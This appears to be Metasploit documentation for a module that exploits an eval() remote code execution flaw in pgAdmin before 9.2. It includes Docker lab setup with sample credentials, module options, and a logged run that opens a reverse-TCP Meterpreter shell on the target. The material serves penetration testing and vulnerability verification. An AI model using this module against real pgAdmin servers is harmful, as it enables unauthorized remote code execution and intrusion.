 ## Vulnerable Application

### Description

This module exploits a vulnerability in pgAdmin where an authenticated user can establish a connection to the query tool
and send a specific payload in the query_commited POST parameter. This payload is directly executed via a Python eval()
statement, resulting in remote code execution in versions prior to 9.2.

To exploit this vulnerability, pgAdmin credentials are required. Additionally, in order to interact with the vulnerable
SQL editor component, valid database credentials are necessary to initialize a session and obtain a transaction ID,
which is required for the exploit.


### Setup

A pgAdmin Docker instance can be started using the following command:
```bash
docker run -d -p 8484:80 -e PGADMIN_DEFAULT_EMAIL=admin@admin.com -e PGADMIN_DEFAULT_PASSWORD=adminpassword --name pgadmin dpage/pgadmin4:9.0
```
A PostgreSQL database needs to be connected to the pgAdmin instance in order to exploit. The version of postgresql doesn't matter:
```bash
docker run -d \\n  -p 5432:5432 \\n  --name postgres \\n  -e POSTGRES_PASSWORD=mysecretpassword \\n  -e POSTGRES_USER=pgadminuser \\n  -e POSTGRES_DB=pgadmin \\n  postgres:latest
```

## Verification Steps
1. Start msfconsole.
1. Do: use exploit/multi/http/pgadmin_query_tool_authenticated.
1. Set the RHOST, USERNAME, PASSWORD, DB_USER, DB_PASS AND DB_NAME options.
1. Run the module.
1. Receive a Meterpreter session as the pgAdmin user. 

## Options

### USERNAME
The username for authentication (required).

### PASSWORD
The password for authentication (required).

### DB_USER
The database username to authenticate to the database with (required).

### DB_PASS
The password to authenticate to the database with (required).

### DB_NAME
The name of the database to target (required)

### MAX_SERVER_ID
The maximum number of Server IDs to try and connect to. This is used to determine the correct server ID for the exploit.
A valid `sid` is required in order to connect to the query_tool in order to exploit. The default value is 10.

## Scenarios
### pgAdmin 4 v9.0
```
msf6 exploit(multi/http/pgadmin_query_tool_authenticated) > run db_name=postgres db_user=pgadminuser db_pass=mysecretpassword rhost=127.0.0.1 rport=8484 username=admin@admin.com password=adminpassword lhost=172.16.199.1 MAX_SERVER_ID=10 verbose=true
[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. pgAdmin version 9.0.0 is affected
[+] Successfully authenticated to pgAdmin
[*] Trying server ID: 1
[*] Trying server ID: 2
[*] Trying server ID: 3
[+] Successfully initialized sqleditor
[*] Exploiting the target...
[*] Sending stage (24772 bytes) to 172.16.199.1
[+] Received a 500 response from the exploit attempt, this is expected
[*] Meterpreter session 3 opened (172.16.199.1:4444 -> 172.16.199.1:62455) at 2025-04-09 17:05:17 -0700

meterpreter > getuid
Server username: pgadmin
smeterpreter > sysinfo
Computer     : e9b855f7cda2
OS           : Linux 6.10.14-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Mar 20 16:36:58 UTC 2025
Architecture : x64
Meterpreter  : python/linux
meterpreter >
```
